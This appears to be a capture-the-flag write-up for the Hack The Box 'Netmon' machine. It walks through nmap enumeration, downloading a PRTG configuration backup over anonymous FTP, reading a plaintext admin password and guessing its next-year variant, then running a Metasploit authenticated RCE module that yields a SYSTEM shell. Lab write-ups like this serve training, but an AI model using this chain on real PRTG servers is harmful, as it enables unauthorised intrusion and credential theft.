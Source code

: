 Target: 10.10.10.152

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.152

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-15 01:36 PDT
Nmap scan report for 10.10.10.152
Host is up (0.095s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-15T08:36:54
|_  start_date: 2021-05-15T08:35:04
```

checking 10.10.10.152

![index](netmon1.png)

### Findings:Looking for attack vectors

Ftp can be accessed through Anonymous FTP login.
Traverse and find website config files.


## Foothold:

[Location of Paessler config files](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

ftp login
```
$ ftp 10.10.10.152

ftp> cd "Programdata"\\Paessler\\"PRTG Network Monitor"

ftp> get "PRTG Configuration.old.bak"

local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 2.80 secs (402.3314 kB/s)
```

looking for creds
```
$ less "PRTG Configuration.old.bak"

<snip>
<dbpassword>
    <!-- User: prtgadmin -->
     PrTg@dmin2018
</dbpassword>
<snip>
```

Loot:

prtgadmin:PrTg@dmin2018

trying password on a different year

prtgadmin:PrTg@dmin2019

trying credentials

![login](netmon2.png)

Metasploit
```
$ msfconsole
```

searching for prtg exploits
```
search prtg

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


use exploit/windows/http/prtg_authenticated_rce
set RHOSTS 10.10.10.152
set LPORT tun0
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\Users\\Public

meterpreter > cat user.txt

<redacted>

meterpreter > cd C:\\Users\\Administrator\\Desktop

meterpreter > cat root.txt

<redacted>
```
